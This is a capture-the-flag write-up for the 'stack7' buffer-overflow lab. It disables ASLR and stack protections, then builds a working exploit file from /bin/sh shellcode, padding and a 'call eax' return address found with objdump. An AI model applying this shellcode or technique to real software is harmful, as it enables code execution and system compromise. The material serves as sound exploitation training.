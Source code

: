 Terminal command to compile with debug symbols + without pie + Disable canaries + Disable ASLR + for x86:

```js
sudo bash -c 'echo 0 > /proc/sys/kernel/randomize_va_space'

gcc -o stack7 stack7.c -z execstack -fno-stack-protector -m32 -no-pie -g
```

### 2. Solution 

#### 2.1 Short Analysis with gdb

This one is similar to stack5 since we're able to write our payload onto eax register.

#### 2.2 Quick Solution

Let's use same payload from stack 5, exploit.bin by increasing the offset by 3.

```
$ hexdump -v exploit.bin
0000000 c031 6850 2f6e 6873 2f68 622f 8969 31e3
0000010 31c9 b0d2 cd0b 0080

$ python2 -c 'import sys; sys.stdout.write("A"*57)' >> exploit.bin

$ hexdump -v exploit.bin 
0000000 c031 6850 2f6e 6873 2f68 622f 8969 31e3
0000010 31c9 b0d2 cd0b 4180 4141 4141 4141 4141
0000020 4141 4141 4141 4141 4141 4141 4141 4141
0000030 4141 4141 4141 4141 4141 4141 4141 4141
0000040 4141 4141 4141 4141 4141 4141 4141 4141
```

Let's find a **call eax** instruction from stack7 binary.

```nasm
$ objdump -d stack7 -M intel | grep "call" | grep "eax"
 8048466:	ff d0                	call   eax
 80484ef:	ff d0                	call   eax
```


Let's choose the address **8048466** in our exploit.

```x86asm
$ echo -ne "\x66\x84\x04\x08" >> exploit.bin
```

Final exploit.

```x86asm
$ hexdump -v exploit.bin 
0000000 c031 6850 2f6e 6873 2f68 622f 8969 31e3
0000010 31c9 b0d2 cd0b 4180 4141 4141 4141 4141
0000020 4141 4141 4141 4141 4141 4141 4141 4141
0000030 4141 4141 4141 4141 4141 4141 4141 4141
0000040 4141 4141 4141 4141 4141 4141 4141 4141
0000050 8466 0804 
```
